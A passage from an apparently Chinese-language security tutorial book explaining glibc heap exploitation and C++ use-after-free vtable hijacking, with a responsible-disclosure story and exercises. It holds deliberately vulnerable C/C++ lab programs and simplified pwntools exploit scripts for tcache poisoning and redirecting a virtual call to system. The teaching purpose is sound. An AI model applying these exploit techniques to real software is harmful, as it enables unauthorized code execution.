   - bins：不同大小的空闲块放在不同的bin里
   - fastbin：小块（<=80字节 on x64）
   - unsorted bin：刚释放的块
   - small bin：小块
   - large bin：大块
   - tcache：线程本地缓存（glibc 2.26+）

4. 堆块的合并
   - 相邻的空闲块会合并成大块
   - 这是为了减少碎片

5. 分配时的查找
   - malloc时，从合适的bin里找空闲块
   - 找不到就从未分配的堆空间切一块
```

**堆溢出的常见利用手法：**

```
💀 堆溢出利用手法：

1. Unlink Attack（老版本glibc）
   - 利用空闲块合并时的指针操作
   - 可以写任意地址
   - 现代glibc已经加了检查，比较难了

2. Fastbin Attack
   - 伪造fastbin链表
   - 让malloc返回任意地址
   - 后续可以写任意地址

3. Tcache Attack（glibc 2.26+）
   - 类似fastbin attack，但是tcache检查更少
   - 现代glibc的热门利用手法

4. House of Spirit
   - 在目标位置伪造一个堆块
   - free它，然后malloc拿到那块内存
   - 实现任意地址写

5. House of Force
   - 覆盖top chunk的size
   - 让malloc返回任意地址

6. House of Einherjar
   - 利用堆合并，强制合并非相邻块
   - 实现任意地址写

7. House of Orange
   - 不需要free，利用top chunk的扩展
   - 触发_FILE结构体攻击

...还有很多
```

**一个简单的tcache poisoning例子：**

```c
// vuln_heap.c - 有堆漏洞的程序
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    char *p1, *p2, *p3;
    
    p1 = malloc(32);
    p2 = malloc(32);
    p3 = malloc(32);
    
    printf("p1 = %p\n", p1);
    printf("p2 = %p\n", p2);
    printf("p3 = %p\n", p3);
    
    // 假设这里有个堆溢出，能写p1后面的内容
    // 包括p2的chunk header
    char input[256];
    printf("Enter input: ");
    read(0, input, 256);
    
    // 模拟溢出（实际中可能是其他原因）
    memcpy(p1, input, 256);  // 溢出！
    
    free(p1);
    free(p2);
    free(p3);
    
    return 0;
}
```

**利用思路（tcache poisoning）：**

```python
# 思路：
# 1. 通过堆溢出，修改tcache链表的next指针
# 2. 让next指针指向我们想写的地址
# 3. malloc两次，第二次返回我们想写的地址
# 4. 写入任意内容

from pwn import *

p = process('./vuln_heap')

# 目标：往 0x404080 写一个值（比如修改GOT表）
target_addr = 0x404080

# 构造payload
# p1是32字节，我们写到p1，溢出影响p2的chunk
# 但是要更复杂，这里简化说明

# 假设free(p1)后，tcache链表是：p1 -> NULL
# 我们通过溢出，在free之前修改p1的内容
# 让p1看起来像是个被free的chunk，next指向target_addr
# 这样free后，tcache变成：p1 -> target_addr
# 再malloc两次，第二次返回target_addr

payload = p64(0)  # p1的chunk header（伪造成free状态）
payload += p64(target_addr)  # p1的next指针，指向target_addr
# ... 其他数据

# 第一次malloc，返回p1
# 第二次malloc，返回target_addr！
# 然后可以写target_addr的内容

# 这就是tcache poisoning的基本思路
# 实际利用要根据具体程序调整
```

### 5.6 UAF利用：释放后使用

UAF（Use-After-Free）是另一种常见的内存漏洞。

```
💀 UAF是什么？

UAF的原理：
1. 程序分配了一块内存（malloc）
2. 用完之后释放了（free）
3. 但是之后又用了这个指针（use after free）
4. 如果这块内存被重新分配给了别人，就可能出问题

举例：
```c
char *p = malloc(32);
strcpy(p, "hello");
free(p);          // 释放
// ...其他代码...
printf("%s\n", p);  // UAF！p已经释放了
```

UAF的危害：
- 信息泄露：读取已释放的内存，可能看到敏感数据
- 任意代码执行：如果重新分配的内存被攻击者控制，可以构造假对象
```

**UAF利用的经典套路（C++虚表劫持）：**

```cpp
// vuln_uaf.cpp - 有UAF漏洞的C++程序
#include <iostream>

class Base {
public:
    virtual void print() {
        std::cout << "Base" << std::endl;
    }
};

class Derived : public Base {
public:
    void print() override {
        std::cout << "Derived" << std::endl;
    }
};

int main() {
    Base *obj = new Derived();
    obj->print();  // 输出 "Derived"
    
    delete obj;    // 释放
    
    // UAF！obj已经释放了，但是又被使用了
    obj->print();  // 危险！
    
    return 0;
}
```

**C++对象在内存里的布局：**

```
📦 C++对象的内存布局（有虚函数）：

+----------------------+
| vtable指针           | <- 指向虚函数表
+----------------------+
| 成员变量1            |
+----------------------+
| 成员变量2            |
+----------------------+
| ...                  |
+----------------------+

虚函数表（vtable）：
+----------------------+
| print函数地址        | <- 第一个虚函数
+----------------------+
| 其他虚函数地址       |
+----------------------+
```

**UAF利用思路：**

```
🎯 C++ UAF利用思路（虚表劫持）：

1. 触发UAF
   - 对象被delete，但是指针还被使用

2. 重新分配内存
   - 分配一块同样大小的内存
   - 这块内存会被分配到原来对象的位置（堆的LIFO特性）
   - 攻击者控制这块内存的内容

3. 伪造虚表
   - 在新分配的内存里，伪造一个vtable指针
   - 让vtable指针指向我们控制的内存
   - 在那块内存里，把"print函数"换成我们想执行的地址

4. 触发虚函数调用
   - 当程序通过UAF指针调用虚函数时
   - 会去读我们伪造的vtable
   - 跳到我们指定的地址

5. 控制流被劫持
   - 配合ROP等技术，可以执行任意代码
```

```python
# UAF exploit示例
from pwn import *

p = process('./vuln_uaf')

# 假设：
# - obj大小是8字节（只有vtable指针）
# - obj被delete后，又被调用print()
# - 我们能在delete之后，调用print之前，malloc一块8字节的内存

# 我们的"假vtable"地址（可以是栈/堆上的数据）
fake_vtable = 0x404100  # 假设这是我们控制的一块内存

# 在fake_vtable处，第一个虚函数的位置，写system的地址
# system_addr = ...

# 构造假对象
fake_obj = p64(fake_vtable)  # vtable指针指向我们的假vtable

# 1. 触发UAF（让程序delete对象）
# 2. 分配假对象（让malloc返回原对象的位置）
p.send(fake_obj)
# 3. 触发虚函数调用（让程序通过UAF指针调print）
# 程序会读fake_obj的vtable指针，然后调vtable[0]
# 也就是调fake_vtable[0]，也就是system！

p.interactive()
```

这就是UAF利用的核心——**通过控制重新分配的内存，伪造对象，劫持虚表，控制执行流**。

浏览器漏洞利用（Chrome、IE、Firefox）大量使用这种手法，因为浏览器里C++对象太多了，UAF漏洞也多。

---

## 📚 案例讲解

### 案例1：从CE改内存到栈溢出利用

**背景**：
对比一下游戏外挂和漏洞利用的相似之处。

**对比表**：

```
📊 游戏外挂 vs 漏洞利用的对比：

| 方面          | 游戏外挂               | 漏洞利用                |
|---------------|------------------------|-------------------------|
| 目标          | 游戏客户端             | 任意程序                |
| 核心能力      | 逆向工程               | 逆向工程                |
| 内存操作      | CE改内存               | 漏洞改内存              |
| 调试          | x64dbg调试游戏         | x64dbg调试目标程序      |
| Hook          | Hook游戏函数           | Hook系统函数            |
| 注入          | DLL注入到游戏          | Shellcode注入到目标     |
| 控制流劫持    | 修改游戏逻辑           | ROP/UAF劫持执行流       |
| 反检测        | 绕过反作弊             | 绕过ASLR/DEP/Canary     |

本质上，干的事情是一样的：
1. 逆向目标程序
2. 找到弱点
3. 利用弱点
4. 绕过防护
```

**关键启示**：

```
💡 启示：

1. 技能是相通的
   - 外挂技能可以直接迁移到漏洞挖掘
   - 反过来，漏洞挖掘技能也能用来做外挂

2. 思维是相通的
   - 都是"逆向思维"——拆开看，找弱点
   - 都是"利用思维"——找到弱点，利用它

3. 工具是相通的
   - 调试器、反汇编器、十六进制编辑器...
   - 这些工具在外挂和漏洞挖掘里都用

4. 唯一的区别是"目标"和"目的"
   - 外挂：改游戏，为了好玩/赚钱
   - 漏洞挖掘：找漏洞，为了安全/研究
```

### 案例2：第一个CVE的完整故事

**背景**：
详细讲讲我第一个CVE的发现过程。

**完整时间线**：

```
📅 CVE-2024-XXXXX 完整时间线：

【Day 1】开始Fuzzing
- 选定目标：PicLib
- 编译插桩版本
- 准备种子（2张小图片）
- 启动AFL

【Day 1-2】Fuzzing运行
- AFL持续运行
- 监控状态：执行速度、覆盖率、种子数
- 中间调整过几次字典和变异策略

【Day 2 晚上】发现第一个崩溃
- AFL报告发现crash
- 初步查看：崩溃在parse_header函数
- 用GDB加载崩溃样本，确认是栈溢出

【Day 3】分析崩溃
- 用GDB详细分析崩溃原因
- 确认漏洞根因：parse_header缺少长度检查
- 写最小化PoC（精简到最简形式）

【Day 3-4】继续Fuzzing
- 又发现了几个崩溃
- 其中2个是新漏洞，其他是重复
- 总共3个不同根因的漏洞

【Day 5】联系厂商
- 写漏洞报告邮件
- 发给PicLib作者
- 等待回复

【Day 6】厂商回复
- 作者确认漏洞
- 发布修复版本v2.3.5

【Day 7】申请CVE
- 通过MITRE网站申请
- 填写漏洞详情、PoC、厂商确认

【Day 21】CVE批准
- 收到CVE编号：CVE-2024-XXXXX
- 激动！

【Day 22】公开披露
- 写技术博客
- 发到安全社区
```

**关键经验**：

```
💡 经验总结：

1. Fuzzing是好东西
   - 自动化，省心
   - 能发现人工审计容易遗漏的边界情况
   - 适合入门

2. 种子很重要
   - 好的种子能大幅提高Fuzzing效率
   - 种子要多样化，覆盖不同的代码路径
   - 可以从测试套件、历史样本里找

3. 崩溃分析要仔细
   - 不是所有崩溃都是漏洞
   - 要确认根因，写出最小化PoC
   - 写报告时要把问题说清楚

4. 沟通要好
   - 联系厂商要礼貌
   - 给出清晰的漏洞描述和修复建议
   - 大部分开源作者都很nice

5. 耐心等CVE
   - 申请CVE到批准，通常1-4周
   - 不要催，慢慢等
```

### 案例3：漏洞利用的演进

**背景**：
从最简单的栈溢出到现代的复杂利用，看看漏洞利用技术怎么演进的。

**图129-4 漏洞利用技术演进图**



**每一代技术的核心思想**：

```
🎯 漏洞利用的核心思想演进：

第1代：直接执行Shellcode
- 思路：把shellcode写到栈上，跳过去执行
- 防护：DEP（栈不可执行）

第2代：ret2libc
- 思路：跳到libc里的system函数，执行"/bin/sh"
- 防护：ASLR（libc地址随机）

第3代：ROP
- 思路：用.text段里的gadget拼出任意操作
- 防护：CFI（控制流完整性）

第4代：信息泄露 + ROP
- 思路：先泄露libc地址，再ROP
- 防御：更强的CFI，指针认证

第5代：堆利用
- 思路：利用堆管理器的复杂逻辑
- 防护：堆隔离，元数据校验

每一代技术，都是在绕过上一代的防护。
攻防就是这样不断升级。
```

---

## ✏️ 课后习题

### 选择题（15道）

1. CE（Cheat Engine）的核心功能是？
   - A. 抓取网络封包
   - B. 扫描和修改进程内存
   - C. 反汇编程序
   - D. 调试程序

2. DLL注入外挂的核心思想是？
   - A. 修改网络封包
   - B. 把自己的代码加载到目标进程
   - C. 修改游戏文件
   - D. 模拟鼠标键盘

3. 以下哪个不是游戏反作弊的技术？
   - A. 内核级监控
   - B. 封包加密
   - C. 行为检测
   - D. 内存优化

4. x64下Windows调用约定，前4个参数放在哪些寄存器？
   - A. RAX, RBX, RCX, RDX
   - B. RCX, RDX, R8, R9
   - C. RDI, RSI, RDX, RCX
   - D. R8, R9, R10, R11

5. 函数调用时，返回地址保存在哪里？
   - A. 寄存器
   - B. 堆
   - C. 栈
   - D. 全局变量

6. PE文件的最开头两个字节是？
   - A. "PE"
   - B. "MZ"
   - C. "ELF"
   - D. "\x7fELF"

7. IDA Pro的F5快捷键功能是？
   - A. 运行程序
   - B. 反编译（汇编转C）
   - C. 下断点
   - D. 查看交叉引用

8. AFL属于哪种类型的Fuzzing？
   - A. 黑盒Fuzzing
   - B. 白盒Fuzzing
   - C. 灰盒Fuzzing（覆盖率引导）
   - D. 生成式Fuzzing

9. 栈溢出能控制执行流，是因为覆盖了什么？
   - A. 局部变量
   - B. 保存的EBP
   - C. 返回地址
   - D. 函数参数

10. Canary（栈保护）的作用是？
    - A. 防止堆溢出
    - B. 检测栈溢出
    - C. 防止整数溢出
    - D. 加密栈数据

11. ROP是用来绕过哪种防护的？
    - A. Canary
    - B. ASLR
    - C. DEP/NX
    - D. RELRO

12. ASLR的作用是？
    - A. 让栈不可执行
    - B. 随机化内存布局
    - C. 检测栈溢出
    - D. 加密程序代码

13. UAF漏洞的全称是？
    - A. Use-After-Free
    - B. Unchecked-Array-Format
    - C. Unauthorized-Access-Function
    - D. Useless-Argument-Function

14. C++对象的虚表（vtable）指针存在哪里？
    - A. 对象的第一个成员
    - B. 全局变量
    - C. 栈上
    - D. 寄存器

15. 申请CVE编号应该通过哪个机构？
    - A. Microsoft
    - B. MITRE
    - C. Google
    - D. Apple

### 填空题（15道）

1. 游戏外挂的核心技术包括：______、______、______（至少写3个）。

2. Cheat Engine的主要功能是扫描和修改进程的______。

3. 抓取网络封包的工具，老牌的有______，现代的有______。

4. 函数调用时，栈上的布局从高地址到低地址依次是：______、______、______、______。

5. x64汇编中，Windows调用约定用______、______、______、______四个寄存器传前4个参数。

6. PE文件的最开头是______头，标志是______两个字节。

7. ELF文件的最开头4个字节是______。

8. IDA Pro中，按______键可以把汇编反编译成C代码。

9. x64dbg中，按______键单步步入，按______键单步步过。

10. AFL是______引导的Fuzzing工具，编译时用______替换gcc。

11. libFuzzer的入口函数名是______。

12. 栈溢出能控制执行流，是因为覆盖了栈上的______。

13. Canary的作用是在函数______时检查，函数______时验证。

14. ROP利用的是程序______段里的______（以ret结尾的短指令序列）。

15. 申请CVE的网站是______，全称是______。

### 简答题（8道）

1. 简述游戏外挂和漏洞挖掘的相似之处。为什么说外挂作者适合转做漏洞挖掘？

2. 什么是Fuzzing？Fuzzing有哪些分类？AFL属于哪一类？

3. 简述栈溢出的原理。函数调用时栈上的布局是怎样的？

4. 现代操作系统有哪些漏洞缓解机制？请列举至少4种，并说明各自的作用。

5. 什么是ROP？为什么需要ROP？ROP是怎么绕过DEP的？

6. 什么是UAF漏洞？C++的UAF漏洞通常怎么利用？

7. 简述申请CVE的完整流程。

8. 什么是"负责任的披露"（Responsible Disclosure）？为什么要走这个流程？

### 实操题（5道）

1. 安装Cheat Engine，找一个单机游戏（或者自己写一个简单程序），用CE修改它的内存值，体验一下"改内存"的过程。
   （注意：只能在单机游戏或自己写的程序上做，网游不要碰）

2. 安装Ghidra（或IDA Pro），找一个简单的Crackme程序，通过反汇编/反编译分析它的校验逻辑，找出正确的密码。

3. 安装AFL，编译一个简单的有漏洞的程序（比如有gets函数的），用AFL Fuzzing它，看能不能自动发现崩溃。

4. 写一个简单的栈溢出exploit（用pwntools），攻击一个关闭所有保护的简单程序，体会一下覆盖返回地址控制执行流。

5. 用ROPgadget工具分析一个程序，找出"pop rdi ; ret"这样的gadget，理解ROP链是怎么构造的。

---

## 📝 本章小结

- 游戏外挂和漏洞挖掘本质上是同一种能力的两种应用——逆向工程
- CE改内存、封包分析、DLL注入这些外挂技术，培养的是"逆向思维"
- 反作弊升级（内核级、加密、行为检测）让外挂越来越难做，是转型的契机
- 从外挂转到漏洞挖掘，需要补充：漏洞类型、漏洞挖掘方法、漏洞利用
- 二进制基础是核心：汇编语言、PE/ELF格式、调试器、反汇编器
- IDA Pro和Ghidra是反汇编神器，F5反编译能极大提高效率
- x64dbg和GDB是调试利器，漏洞分析全靠它们
- Fuzzing是漏洞挖掘的核心方法：AFL（覆盖率引导）、libFuzzer（进程内）
- 第一个CVE的诞生：Fuzzing发现崩溃 → 分析根因 → 写PoC → 联系厂商 → 申请CVE
- 漏洞利用是"把bug变成武器"：栈溢出是最经典的入门
- 现代缓解机制：Canary、DEP、ASLR、PIE、RELRO、CFI
- ROP用gadget拼出任意操作，绕过DEP
- 堆利用是更复杂的世界：fastbin attack、tcache poisoning、各种House of XXX
- UAF利用：通过控制重新分配的内存，伪造对象，劫持虚表
- 漏洞利用技术是不断演进的，每一代都是在绕过上一代的防护
- 上篇到此为止，下篇将讲述：从CVE到0day，从0day到Pwn2Own的历程

---

## 🔗 相关链接

- [⬅️ 上一章：第128章](/redteam/day128-story-内向技术宅到社工大师下)
- [➡️ 下一章：第130章 游戏外挂爱好者到0day漏洞猎手（下）](/redteam/day130-story-游戏外挂爱好者到0day漏洞猎手下)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)

---

## 📌 下篇预告

下篇将讲述小林的进阶之路：

- 从CVE到0day：挖掘真正的0day漏洞
- 浏览器漏洞利用：V8引擎、JIT spray
- 内核漏洞：Windows/Linux内核利用
- Pwn2Own比赛：在世界级比赛上获奖
- 漏洞交易市场：ZDI、 Crowdfense
- 从漏洞猎手到安全研究员的蜕变

**故事还在继续，0day的世界更加精彩...**

> ::: warning 重要提示
> 本章讲述的所有技术，仅用于学习和研究目的。
> 在没有授权的情况下，对任何系统进行攻击都是违法的。
> 学技术，先学做人，再学法律。
> :::
